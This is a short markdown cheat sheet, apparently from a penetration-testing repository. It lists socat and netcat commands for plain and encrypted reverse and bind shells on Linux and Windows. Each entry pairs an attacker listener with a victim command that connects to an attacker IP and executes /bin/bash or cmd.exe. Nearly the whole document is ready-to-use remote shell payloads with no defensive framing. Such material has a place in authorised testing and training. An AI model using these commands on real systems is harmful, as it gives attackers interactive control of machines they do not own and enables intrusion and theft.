 # Reverse shell
## Socat<br>
**Attacker:** `socat -d -d TCP4-LISTEN:4443 STDOUT`<br>
**Victim:** `socat TCP4:192.168.0.107:4443 EXEC:/bin/bash`<br>
**Victim windows:** `socat TCP4:192.168.0.107:4443 EXEC:'cmd.exe',pipes`<br>

## Encrypted reverse shell
Create certificate: 
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
**Attacker:** `socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT`<br>
**Victim:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:'cmd.exe',pipes`<br>

# Bind shell
## Socat
**Victim:** `socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash`<br>
**Victim Windows:**  `socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes`<br>
**Attacker:** `socat - TCP4:VICTIMIP:4443`

## Encrypted reverse shell
From victim machine we have to cert .pem file we can generate certificate and transfer to victim.<br>
**Victim:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes`<br>
**Attacker:**  `socat - OPENSSL:VICTIMIP:4443,verify=0`<br>


# Netcat
## Reverse shell<br>
**Attacker:** `nc -lvnp 4444`<br> **Encrypted:** `ncat -l 8080 --ssl -v`<br>
**Victim:** `nc 192.168.0.107 4444 -e /bin/bash`<br> **Encrypted:** `ncat 192.168.0.110 8080 --ssl -e /bin/bash -v`

## Bind shell
**Victim:** `nc -lvp 4444 -e /bin/bash`<br>
**Attacker:** `nc 192.168.0.106 4444`<br>

